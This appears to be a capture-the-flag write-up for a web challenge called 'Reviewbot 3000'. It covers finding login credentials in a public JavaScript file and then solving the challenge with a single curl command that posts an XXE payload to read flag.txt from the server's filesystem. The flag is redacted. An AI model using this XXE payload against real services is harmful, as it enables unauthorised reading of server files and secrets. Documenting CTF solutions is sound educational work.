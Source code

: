 ```yaml
---
date: '2025-08-25T13:40:51+05:30'
draft: true
title: 'Reviewbot 3000'
tags:
- web
- XXE
- python
---
```


XXE is one of those things you never expect to be present but it somehow makes it way to a web chall.

<!--more-->

## Recon

### Challenge description

This challenge's description tells that the bot responds to all forms of input - text, even JSON.

The website at `https://techpulse.gencyscorp.in/login` requires logging in with credentials.

## Solve

### Login

Enumerate `robots.txt` to find the password from `https://techpulse.gencyscorp.in/js/auth.js` and the username is `ctf-player`. The result is that the followign cookies are set.

```
X-token: 43334random
X-Challenge-Id: 1
```

### XXE

After further enumeration, the site has a page for giving feedback for products. It makes POST request with formdata body.

It also gives a successful redirect to a JSON body.

So, why not try good ol' XXE?!

```sh
$ curl -s -X POST 'https://techpulse.gencyscorp.in/api/success-review' \
  -H 'X-token: 43334random' \
  -H 'X-Challenge-Id: 1' \
  -H 'Content-Type: application/xml' \
  -d '<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE request [ <!ENTITY xxe SYSTEM "file:///proc/self/cwd/flag.txt"> ]> <request> <comment>&xxe;</comment> <score>42</score> </request>' | jq .comment_received -r
```

This request gets the flag successfully.

## Flag

`USTCtf{REDACTED}`

Note: Flag has been redacted.
